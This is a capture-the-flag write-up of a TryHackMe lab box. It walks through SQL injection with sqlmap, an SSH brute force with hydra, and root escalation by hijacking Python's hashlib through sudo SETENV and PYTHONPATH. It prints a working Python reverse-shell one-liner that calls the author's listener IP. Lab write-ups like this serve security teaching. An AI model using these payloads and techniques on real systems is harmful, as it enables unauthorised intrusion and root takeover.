








This box is rated medium difficulty on THM. It involves us exploiting SQL injection to grab low level user credentials, brute forcing another user's login, and abusing environment variables alongside Sudo permissions to grab a root shell.

_Shhh. Be very very quiet, no shouting inside the biblioteca._

## Scanning & Enumeration
First things first, I run an Nmap scan against the given IP to find all running services on the host.

```
$ sudo nmap -p22,8000 -sCV 10.65.179.143 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-29 01:29 CST
Nmap scan report for 10.65.179.143
Host is up (0.044s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:dc:6f:cc:1e:16:07:4b:de:21:c0:ff:1a:63:38:3a (RSA)
|   256 0c:f0:bf:c0:71:c6:fd:42:c7:b5:22:3e:56:e4:ec:c7 (ECDSA)
|_  256 24:60:49:60:c4:99:e9:1d:c2:cb:09:b6:86:94:39:b1 (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.40 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 8000

We can't do too much on SSH without creds so I start a few Gobuster scans to find directories/subdomains for the web server and head over there. The landing page is just a login panel for some application and it seems to be using Python-Werkzeug to run it.



We have an account register function so I make a new account to find any functions to exploit internally.


The only thing on our dashboard is a welcome message to the index page and a logout button. We'll have to rely on enumeration heavily so I'll spend a lot a time there. I also notice that we're given a Flask session cookie and unsigning it shows that it holds our username and a couple of other values.



This is good to note, but we can't exploit it to view other people's dashboards unless we get the secret used to encode it. I register an account using the name admin and it doesn't error so we probably can't brute force a login until we get a valid username too. From here I pivot to exploiting the login form directly. 

## SQL Injection
I find that supplying special characters in the username or password parameters throws a 500 internal server error. This is often a sign that the site is prone to SQLi which may let us enumerate the database.



A simple payload which will always resolve to being yes allows me to login as the admin user I had just created. Now that we've confirmed that it's possible to inject malicious SQL queries into these parameters, I save the request and send it over to SQLmap to save some time.

```
sqlmap -r sqli.req --dbs --dump
```



## Initial Foothold
This rewards us with a password for an account named smokey. Logging in on the page doesn't give us anymore info for their account, so I use this pair of creds on SSH to grab a shell.



The only other users on the system are hazel and root, so we'll likely have to pivot to her account before fully compromising it. I go about the usual routes for privesc as a low level user by searching for SUID bits set, loose Sudo permissions, encrypted backups on a share, but those do not return anything interesting. 

I discover the application's source code at `/var/opt/app/app.py` which gives me smokey's MySQL password, however there aren't any other databases to dump. My last resort was to upload pspy to find any background processes executing scripts (nothing) and uploading LinPEAS for any quick wins (nothing).

With no files or processes to exploit, we'll have to brute force hazel and/or root's login which is now possible since we've gathered all usernames. I'll use hydra for this part but you could easily make your own python script. 

```
hydra -l hazel -P /opt/SecLists/rockyou.txt ssh://MACHINE_IP
```

## Privilege Escalation
I actually guess it first try as I typically test for the usernames reused as the passwords. This is because most wordlists won't use it and some password policies have it set to be so by default and the owner never gets around to change it. 



After signing in on her account, we can start looking at routes to escalate privileges to root. Along with the user flag in her home directory, there is a python script which hashes a password three separate times using MD5, SHA256, and SHA1 to create a secure string for storage. 

Listing Sudo permissions shows that Hazel has access to run this script as root user with no password. The strange thing here is the `SETENV: ` option which allows the user to set their own environment variables to use with the command. This option isn't here by default due to security reasons, which we'll prove shortly.



Just supplying an environment variable as our string to hash doesn't work as it takes the literal input from it and we have no way of escaping it. Because the script only imports hashlib and doesn't print any env vars within it, we'll have to exploit that library.

[Here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) is an article showing similar methods.

```
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())

def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

All we really have to do is copy the hashlib library to `/tmp` and add a line in the midst of it that contains a reverse shell pointing toward our netcat listener. 

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.144.73",4567));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

I use a simple Python payload appended to the library and then run the command while supplying the PYTHONPATH environment variable with `/tmp` so the Sudo binary executes our malicious library instead.

```
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

Finally, we have a shell on the system as root user and can grab the final flag at `/root/root.txt` to finish the box.



This box was a fun and simple one; It goes to show unsanitized user input and weak password policies can lead to a full server takeover using just a few simple exploits. I hope this was helpful to anyone following along or stuck and happy hacking!
